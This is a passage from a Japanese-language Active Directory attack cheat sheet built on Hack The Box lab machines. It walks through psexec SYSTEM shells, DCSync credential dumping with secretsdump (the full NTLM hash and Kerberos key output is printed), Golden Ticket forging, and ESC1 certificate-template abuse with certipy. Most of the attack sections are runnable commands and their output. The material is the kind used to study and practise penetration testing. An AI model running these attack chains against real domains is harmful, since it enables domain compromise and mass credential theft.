  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Requesting shares on dc.intelligence.htb.....
  [*] Found writable share ADMIN$
  [*] Uploading file FzYxsMAE.exe
  [*] Opening SVCManager on dc.intelligence.htb.....
  [*] Creating service mcQy on dc.intelligence.htb.....
  [*] Starting service mcQy.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.17763.1879]
  (c) 2018 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>whoami
  nt authority\system
  ```

## DCSync

- Active Directory 間の ntds.dit の同期機能を悪用し、ntds.dit を取得
- 状況如何では侵入したホストでユーザに DCSync 権限（ExtendedRight）の付与が必要
  - 詳細は[Abusing Active Directory Permissions with PowerView](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)を参照
- なお、NTLMRelayx の escalate-user オプションでも、DCSync 権限の付与が可能
  - NTLM を http から ldap へリレーし、ユーザに DCSync 権限を付与
  - 詳細は[Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)を参照
- secretsdump で ntds.dit を取得
- HTB: Forest

  ```console
  侵入したホストで必要であればDCSync権限をユーザに付与

  C:\Users\svc-alfresco\Documents> $pass = convertto-securestring "password" -asplain -force
  C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential("htb\new_user", $pass)
  C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity new_user -Credential $cred -Rights DCSync

  Hostマシンで実行

  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $impacket-secretsdump -dc-ip forest.htb htb.local/new_user:password@forest.htb
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
  [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
  [*] Using the DRSUAPI method to get NTDS.DIT secrets
  htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
  htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
  htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
  htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
  htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
  htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
  htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
  htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
  htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
  htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
  htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
  htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
  htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
  htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
  htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
  htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
  htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
  hoge:8102:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
  add:8103:aad3b435b51404eeaad3b435b51404ee:5ea0314ef1ca282e1c78a14f7c2664ef:::
  new_user:8104:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
  FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:a046ecc99adc25e45227b138f086bf08:::
  EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
  [*] Kerberos keys grabbed
  krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
  krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
  krbtgt:des-cbc-md5:9dd5647a31518ca8
  htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
  htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
  htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
  htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
  htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
  htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
  htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
  htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
  htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
  htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
  htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
  htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
  htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
  htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
  htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
  htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
  htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
  htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
  htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
  htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
  htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
  htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
  htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
  htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
  htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
  htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
  htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
  htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
  htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
  htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
  htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
  htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
  htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
  htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
  htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
  htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
  htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
  htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
  htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
  htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
  htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
  htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
  htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
  htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
  htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
  htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
  htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
  htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
  htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
  htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
  htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
  hoge:aes256-cts-hmac-sha1-96:dcb6fd860e97ed9a5f28807f2f5564e0e40a786494e6350aa3ae11846d66f786
  hoge:aes128-cts-hmac-sha1-96:789719e22d8c5d0d6f58e093ee85d56e
  hoge:des-cbc-md5:76dad6928915da98
  add:aes256-cts-hmac-sha1-96:c872c6c694619fda21105171ba4b310796d645f9ec4182a9f6f527dfd6f5a855
  add:aes128-cts-hmac-sha1-96:bdde72230ae071ca4d4fae92394232da
  add:des-cbc-md5:f7f75db03e109d86
  new_user:aes256-cts-hmac-sha1-96:a2bf972b2ca9f4e5859930d6b14685a31f0926149efdf0e070b8f1e4e2cb9571
  new_user:aes128-cts-hmac-sha1-96:b5428dd0c54a1a1665d1de7bcfbee8a3
  new_user:des-cbc-md5:d5834f3b51c74f3e
  FOREST$:aes256-cts-hmac-sha1-96:806a3ec064c3053b1059cb6f99d9eec0f1724a3bab19f82d8a51522129d88e96
  FOREST$:aes128-cts-hmac-sha1-96:a6507b11ef314d91524b1e9ac56b0780
  FOREST$:des-cbc-md5:8cd998512c435826
  EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
  EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
  EXCH01$:des-cbc-md5:8c45f44c16975129
  [*] Cleaning up...
  ```

## Golden Ticket

- ntds.dit などから漏洩した krbtgt のパスワードハッシュから、新規ユーザの Golden Tichket を生成
- 前記 Golden Ticket を利用し、psexec などでターゲットへ侵入可能
- Domain の SID はターゲット上で Get-ADDomain を実行する、もしくは rpcclient で適当なユーザの lookupnames を実行し、取得すればよい
- HTB: Forest

  ```console
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $rpcclient -h htb.local -U svc-alfresco
  Enter WORKGROUP\svc-alfresco's password:
  rpcclient $> lookupnames svc-alfresco
  svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147 (User: 1)
  rpcclient $> ^C
  ┌─[✗]─[rio@parrot]─[~/Htb/Forest]
  └──╼ $impacket-ticketer -domain htb.local -domain-sid S-1-5-21-3072663084-364016917-1341370565 -nthash 819af826bb148e603acb0f33d17632f8 new_user
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

  [*] Creating basic skeleton ticket and PAC Infos
  [*] Customizing ticket for htb.local/new_user
  [*]     PAC_LOGON_INFO
  [*]     PAC_CLIENT_INFO_TYPE
  [*]     EncTicketPart
  [*]     EncAsRepPart
  [*] Signing/Encrypting final ticket
  [*]     PAC_SERVER_CHECKSUM
  [*]     PAC_PRIVSVR_CHECKSUM
  [*]     EncTicketPart
  [*]     EncASRepPart
  [*] Saving ticket in new_user.ccache
  ```

## Certificate Template

- Kerberos 認証では、証明書での認証が可能
- 証明書テンプレートに誤設定が存在する場合、攻撃者は任意の証明書を入手できる場合がある
- 入手した証明書で Kerberos 認証を行い、任意のユーザの TGT(ccache)もしくは HTLM ハッシュを入手する
- tool: [certipy](https://github.com/ly4k/Certipy.git)
- HTB: Escape

```console
╭╴(root@container) /work
╰╴$ certipy find -vulnerable -stdout -u ryan.cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.12
9.88.216
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

╭╴(root@container) /work
╰╴$ certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -target 10.129.88.216 -template UserAuthentication -ca sequel-DC-CA -upn Administrator@sequel.htb
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with UPN 'Administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

╭╴(root@container) /work
╰╴$ certipy auth -pfx administrator.pfx -dc-ip 10.129.88.216
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee

╭╴(root@container) /work
╰╴$ klist administrator.ccache
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
06/06/23 20:03:29  06/07/23 06:03:29  krbtgt/SEQUEL.HTB@SEQUEL.HTB
        renew until 06/07/23 20:03:28

╭╴(root@container) /work
╰╴$ impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee' -no-pass administrator@10.129.88.216
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.88.216.....
[*] Found writable share ADMIN$
[*] Uploading file yRLPuZBs.exe
[*] Opening SVCManager on 10.129.88.216.....
[*] Creating service VKyr on 10.129.88.216.....
[*] Starting service VKyr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>


```

# Tools

| tool     | in/out                                                          | attack               |
| -------- | --------------------------------------------------------------- | -------------------- |
| ticketer | krbtgt's NTLM -> any user's TGT, Service HTLM -> Service TGS    | golden ticket        |
| getST    | user's NTLM / password -> user's TGT -> impersonated user's TGS | deligation           |
| getTGT   | user's NTLM / password -> user's TGT                            | over the hash        |
| certipy  | AD CS cert -> user's TGT / NTLM                                 | certificate template |

# Others

---

## Error: Clock skew too great

- Kerberos クライアントとサーバ間で時刻同期ができていないことが原因
- Active Directory で ntp サーバが動作している場合は、`ntpdate`で調整可能

  ```console
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $sudo systemctl stop ntp
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $sudo ntpdate intelligence.htb
  14 Jul 21:49:49 ntpdate[23751]: step time server 10.129.183.59 offset +25200.373168 sec
  ```

- Active Directory で smb サーバが動作している場合は、`date`で調整可能

  ```console
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $nmap -p 445 --script smb2-time forest.htb
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-14 17:10 JST
  Nmap scan report for forest.htb (10.129.183.66)
  Host is up (0.28s latency).

  PORT    STATE SERVICE
  445/tcp open  microsoft-ds

  Host script results:
  | smb2-time:
  |   date: 2021-07-14T08:10:29
  |_  start_date: 2021-07-14T07:13:13

  Nmap done: 1 IP address (1 host up) scanned in 4.41 seconds
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $sudo date -s '2021-07-14T08:10:04 GMT'
  2021年  7月 14日 水曜日 17:10:04 JST
  ```

## Reference

---

- [Penetration Testing Active Directory, Part II](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
- [No Shells Required - a Walkthrough on Using Impacket and Kerberos to Delegate Your Way to DA](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
